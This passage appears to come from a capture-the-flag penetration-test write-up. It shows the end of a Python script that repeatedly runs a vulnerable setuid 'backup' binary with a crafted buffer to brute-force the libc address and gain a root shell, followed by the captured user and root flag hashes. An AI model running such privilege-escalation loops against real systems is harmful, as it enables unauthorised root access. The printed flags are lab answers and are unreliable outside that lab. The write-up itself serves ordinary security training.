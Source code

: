     print "Calling vulnerable program"
    
    i = 0
    while (i < 255):
        print "Number of tries: %d" %i
        i += 1
    
        ret = call(["/usr/local/bin/backup", "-i", "3de811f4ab2b7543eaf45df611c2dd2541a5fc5af601772638b81dce6852d110", buf])
        if (not ret):
            break
        else:
            print "Exploit failed"
    ```

13. Executing the above script enough times that it finally catches the base address of libc specified will yield a root shell:
    ![image-20201031220601039](.Report.assets/image-20201031220601039.png)

14. From this shell, I was able to read the contents of the user.txt and root.txt file.
    ![image-20201031220642613](.Report.assets/image-20201031220642613.png)
    user.txt: e1156acc3574e04b06908ecf76be91b1
    root.txt: 1722e99ca5f353b362556a62bd5e6be0
